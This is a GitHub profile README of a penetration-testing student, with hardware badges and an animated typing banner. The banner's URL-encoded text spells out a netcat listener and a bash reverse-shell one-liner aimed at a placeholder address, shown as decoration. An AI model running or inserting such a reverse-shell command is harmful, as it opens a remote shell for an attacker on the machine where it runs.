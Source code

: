 <h1 align="center">Hi 👋, I'm Lalit-710Cx</h1>

<a href="https://git.io/typing-svg"><img src="https://readme-typing-svg.demolab.com?font=Fira+Code&duration=4000&pause=500&color=3BF720FF&multiline=true&width=500&height=255&lines=nc+-lvnp+1011;listening+on+%5Bany%5D+1011+. . .;connect+to+%5BLalit-710Cx%5D++profile+;bash+-i+%3E%26+%2Fdev%2Ftcp%2F10.10.10.10%2F1011+0%3E%261;Lalit-710Cx%40profile%3A~%24+.%2Fexploit.py;......................................................................................................;...................PwN3d!......................................;+++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++;%24whoami;Lalit-710Cx" alt="Typing SVG" /></a>

&nbsp;
<p align="center">
<img src="https://readme-typing-svg.herokuapp.com?font=Orbitron&pause=1000&color=3BF720FF&width=360&lines=%E2%96%91A%E2%96%91C%E2%96%91C%E2%96%91E%E2%96%91S%E2%96%91S%E2%96%91+%E2%96%91G%E2%96%91A%E2%96%91I%E2%96%91N%E2%96%91E%E2%96%91D%E2%96%91">

<img src="https://raw.githubusercontent.com/khoa083/khoa/main/Khoa_ne/img/Rainbow.gif" width="100%">


- 🌱 I’m currently studying for **Certified Pentration Testing Specialist (CPTS)**

- 💬 Ask me about **Linux / THM / Windows / Hyprland**

- 🤝 I’m looking for help with **Linux**

- ⚡ Fun fact **Hack ---> Sleep ---> Repeat**



### My Workspace 🖥️

<div style="display: flex; justify-content: center;">
    <img alt="Static Badge" src="https://img.shields.io/badge/NVIDIA%204060-%230bb814?style=for-the-badge&logo=nvidia&logoColor=black&logoSize=auto">
    <img alt="Static Badge" src="https://img.shields.io/badge/RIZON%207%207840HS-%23d90707?style=for-the-badge&logo=amd&logoColor=black&logoSize=auto&labelColor=grey">
    <img alt="Static Badge" src="https://img.shields.io/badge/LOQ-%23275d96?style=for-the-badge&logo=lenovo&logoColor=cf2f17&logoSize=auto">
    <img alt="Static Badge" src="https://img.shields.io/badge/laptop-black?style=for-the-badge&logo=laptop&logoSize=auto">
</div>
